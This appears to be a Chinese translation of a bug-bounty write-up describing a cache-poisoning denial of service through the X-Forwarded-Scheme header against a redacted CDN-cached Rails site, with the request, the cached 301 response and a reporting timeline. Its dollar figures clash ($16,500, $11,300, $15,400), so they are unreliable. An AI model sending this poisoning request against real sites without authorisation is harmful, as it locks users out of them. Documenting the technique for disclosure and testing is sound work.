

# 我如何通过入侵 CDN 缓存服务器赚到 16500 美元——第三部分

> 原文：<https://infosecwriteups.com/how-i-made-16-500-hacking-cdn-caching-servers-part-3-91f9d836e046?source=collection_archive---------2----------------------->

## @bxmbn



# 通过 X-Forwarded-Scheme 标头的缓存中毒拒绝服务

> *赏金:3000*

我不知道这是一件事，直到我看到@iustinBB 的一篇关于缓存中毒研究的博客[大规模缓存中毒](https://youst.in/posts/cache-poisoning-at-scale/)

```
Sending the x-forwarded-scheme: http header would result  into a 301 redirect to the same location. If the response was cached by a CDN, it would cause a redirect loop, inherently denying access to the  file.
```

我很快想起了一个使用缓存服务器和 Ruby on Rails 的私有程序资产

## 请求:

```
GET /?xxx HTTP/2 
Host: Redacted
X-Forwarded-Scheme: http 
...
```

*如果你要测试这个，你应该总是使用“缓存破坏者”(？anything=x)在这种情况下，我用(？xxx)这样我就不会误毒其他用户了。*

## 回应:

```
HTTP/2 301 Moved Permanently 
Date: Wed, 19 Jan 2022 17:16:13 GMT 
Content-Type: text/html 
Location: Redacted
Via: 1.1 vegur 
Cf-Cache-Status: HIT 
Age: 3
```

如果攻击者对缓存服务器计时并毒害 https://redacted/

当请求 https://redated/时，用户的响应将是

```
HTTP/2 301 Moved Permanently
Cf-Cache-Status: HIT 
```

他们将无法访问[https://redated/](https://redacted/)，因为攻击者保存了 301 重定向，并且不会加载，直到缓存刷新。

# 时间线:

> 报道→2022 年 1 月 19 日
> 
> 待定计划审核→2022 年 1 月 25 日
> 
> 分流→2022 年 1 月 25 日
> 
> 奖金发放→2022 年 1 月 26 日

这三份报告的总费用为 11，300 美元

我只选择了这三份报告，因为它们是获奖最多的。

我对其他程序应用了相同的方法，这包括缓存欺骗问题，如 [#1343086](https://hackerone.com/reports/1343086)

在 [HackerOne](https://hackerone.com/) 和 [BugCrowd](https://www.bugcrowd.com/) 上总共赚了 15400 美元

感谢阅读！

确保在 Twitter 上关注我；)

[@bxmbn](https://twitter.com/bxmbn)

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)